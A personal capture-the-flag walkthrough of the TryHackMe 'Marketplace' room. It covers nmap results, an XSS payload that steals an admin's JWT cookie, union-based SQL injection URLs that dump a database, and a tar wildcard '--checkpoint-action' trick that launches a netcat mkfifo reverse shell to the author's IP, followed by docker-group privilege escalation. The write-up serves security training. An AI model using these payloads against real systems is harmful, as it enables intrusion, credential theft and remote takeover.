# The Marketplace

This is a write-up for the room on TryHackMe: [https://tryhackme.com/room/marketplace](https://tryhackme.com/room/marketplace)

Nmap scan: 

```
nmap -T4 -A 10.10.32.69 -oN nmapscan
```

Output of nmap scan:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-02 17:22 EDT
Nmap scan report for 10.10.32.69
Host is up (0.20s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.68 seconds
```

I started off by visiting the main page on port 80:

![](<../../.gitbook/assets/image (313).png>)

There is a robots.txt, which was indicated in the nmap scan:

![](<../../.gitbook/assets/image (302).png>)

This leads to the following:

![](<../../.gitbook/assets/image (315).png>)

The same page is visible for the webserver on port 32768:

![](<../../.gitbook/assets/image (318).png>)

I signed up and made a new listing on the site. I then added **\<script>alert(document.cookie)\</script>**, in the title to see if I can get some information:

![](<../../.gitbook/assets/image (310).png>)

I seem to get a token. I found out that this is JWT or JSON Web Token. When I decoded it, this was my result:

![](<../../.gitbook/assets/image (307).png>)

I believe my next step is to change the payload data to have me be the admin, so I am allowed to view the page. I tried to modify the payload as admin, but I ended up failing. I found [this write-up](https://www.security-hive.com/post/tryhackme-the-marketplace-walkthrough), that led me to a website: [https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md](https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md). Using the github link, I first **ran the python script** mentioned in the github page, and then I tried the first option:

![](<../../.gitbook/assets/image (301).png>)

I then got this response from the website:

![](<../../.gitbook/assets/image (293).png>)

I then tried it again, this time removing the alert box code:

![](<../../.gitbook/assets/image (316).png>)

I then submitted the listing. Based on the hint from TryHackMe, I then reported this listing to the admins. 

![](<../../.gitbook/assets/image (306).png>)

At this point, I realized that I was making a mistake, and that I was entering the IP of the server itself, and not my own IP from TryHackMe. I then corrected my javascript:

![](<../../.gitbook/assets/image (296).png>)

When I reported it this time to the admin, I got the cookie using the python script from the GitHub page:

![](<../../.gitbook/assets/image (300).png>)

I entered this in [jwt.io](https://jwt.io/#debugger-io), and got the following result:

![](<../../.gitbook/assets/image (299).png>)

We can see the username of the admin is michael. I then logged out of the account. I then logged in using credentials I had made previously, **test:test**, and when the following prompt came up in burpsuite (I used the burpsuite browser for this part), I modified it to use the cookie of the admin: 

![](<../../.gitbook/assets/image (320).png>)

I was then in:

![](<../../.gitbook/assets/image (311).png>)

In order to access **/admin**, you have to manually force the admin cookie in bupsuite. After I did that, I got to the following site:

![](<../../.gitbook/assets/image (319).png>)

I did the same for the **Administration Panel**, and got the first flag:

![](<../../.gitbook/assets/image (314).png>)

I see that jake is also an administrator. After a while, viewing [this write-up](https://www.security-hive.com/post/tryhackme-the-marketplace-walkthrough), made me realize that I should focus more on the SQL Injection than the user jake. Using the same write-up I ended up finding about the following web query:

```c
http://10.10.8.149/admin?user=-2+union+select+1,(SELECT+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()),3,4
```

This led to the output that tolds what table names there are:

![](<../../.gitbook/assets/image (317).png>)

Running the following web query led to the column names:

```c
http://10.10.8.149/admin?user=-2+union+select+1,(SELECT+group_concat(column_name)+from+information_schema.columns+where+table_schema=database()),3,4
```

![](<../../.gitbook/assets/image (322).png>)

From the write-up, the author then went on to make this query:

```c
http://10.10.8.149/admin?user=-2+union+select+1,(SELECT+message_content+FROM+messages+WHERE+ID=1),3,4
```

This led to the following output:

![](<../../.gitbook/assets/image (309).png>)

This seems to be the SSH password for a user. The credentials worked for jake:

![](<../../.gitbook/assets/image (298).png>)

The user.txt file was in the directory you enter in:

![](<../../.gitbook/assets/image (304).png>)

I then ran **sudo -l **to find out what actions we have as a sudoer:

![](<../../.gitbook/assets/image (321).png>)

I found out we have a file we have access to read. We do not have access to edit the file. I found [this website](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/), based on a couple of the write-ups I had read online, that talked about exploiting wildcards for privilege escalation. I followed the commands from the website:

I first ran `cat /etc/cron` and got the following output:

![](<../../.gitbook/assets/image (295).png>)

There does not seem to be anything of importance here, so I moved on to the next step, which was creating a msfvenom payload:

![](<../../.gitbook/assets/image (294).png>)

We then copy the **mkfifo** output (previous image) into the jake user's shell (in the **/opt/backups** directory). I then ran the following commands, going off of [this write-up](https://yebberdog.medium.com/tryhackme-the-marketplace-writeup-3397db0c6dfb):

```c
echo "mkfifo /tmp/rtez; nc 10.2.54.229 4444 0</tmp/rtez | /bin/sh >/tmp/rtez 2>&1; rm /tmp/rtez" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
sudo -u michael ./backup.sh
```

{% hint style="warning" %}
I ran into an issue here where I was not able to backup the files. I kept getting an error, in order to fix it, I moved **backup.tar** to **bkup.tar**. I then ran the **sudo** command once again and got the reverse shell. Source: [https://www.infosecarticles.com/tryhackme-the-marketplace-walkthrough/](https://www.infosecarticles.com/tryhackme-the-marketplace-walkthrough/)
{% endhint %}

After I ran the aforementioned commands, I had a reverse shell:

![](<../../.gitbook/assets/image (312).png>)

I then spawned a python shell here running the following command, from [this website](https://netsec.ws/?p=337):

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

After I got the shell, I tried to run **sudo -l**, but that did not work out for me. I had to get the shell again and start over. I read [a write-up](https://www.infosecarticles.com/tryhackme-the-marketplace-walkthrough/) and found out we are part of the docker group. I also found out that I made a mistake copying a command from GTFOBins (for the **docker** command):

![](<../../.gitbook/assets/image (297).png>)

I was not supposed to use sudo for this. I was then able to get the flag:

![](<../../.gitbook/assets/image (305).png>)


